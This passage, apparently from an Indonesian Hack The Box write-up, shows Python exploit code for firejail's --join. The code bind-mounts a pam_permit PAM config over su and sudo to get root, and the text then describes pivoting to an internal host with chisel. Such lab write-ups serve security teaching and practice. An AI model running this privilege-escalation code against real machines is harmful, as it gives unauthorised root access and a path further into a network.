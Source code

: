```python
# target process.
#
# This means we can invoke setuid-root binaries as usual but they will operate
# in a mount namespace under our control. To exploit this we need to adjust
# file system content in a way that a setuid-root binary grants us full
# root privileges. 'su' and 'sudo' are the most typical candidates for it.
#
# The tools are hardened a bit these days and reject certain files if not owned
# by root e.g. /etc/sudoers. There are various directions that could be taken,
# this one works pretty well though: Simply replacing the PAM configuration
# with one that will always grant access.
with tempfile.NamedTemporaryFile('w') as tf:
    tf.write("auth sufficient pam_permit.so\n")
    tf.write("account sufficient pam_unix.so\n")
    tf.write("session sufficient pam_unix.so\n")

    # Be agnostic about the PAM config file location in /etc or /usr/etc
    for pamd in ("/etc/pam.d", "/usr/etc/pam.d"):
        if not os.path.isdir(pamd):
            continue
        for service in ("su", "sudo"):
            service = Path(pamd) / service
            if not service.exists():
                continue
            # Bind mount over new "helpful" PAM config over the original
            bindMount(tf.name, service)

print(f"You can now run 'firejail --join={os.getpid()}' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.")

while True:
    line = sys.stdin.readline()
    if not line:
        break
```

Setelah itu kita upload ke dalam ``/tmp`` sistem tersebut dan menjalankannya dengan python3
![image](https://media.discordapp.net/attachments/740245586095112242/1092692966566547536/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1092693107113467964/image.png)

Untuk mendapatkan Root access kita hanya menjalankan dengan ```firejail --join=[ID]```
![image](https://media.discordapp.net/attachments/740245586095112242/1092693315503276052/image.png)

Setelah mendapatkan root access disini tidak ada user.txt atau root.txt flag dari HTB tetapi disini ketika kita membaca ifconfig terdapat Ip dengan alamat 172.16.22.2 dimana pasti ada Ip lagi dengan alamat 172.16.22.1
![image](https://media.discordapp.net/attachments/740245586095112242/1092693512178372628/image.png)

Selanjutnya kita menggunakan chisel untuk melihat isi yang ada di Ip ``172.16.22.1``
![image](https://media.discordapp.net/attachments/740245586095112242/1092693716495511592/image.png)
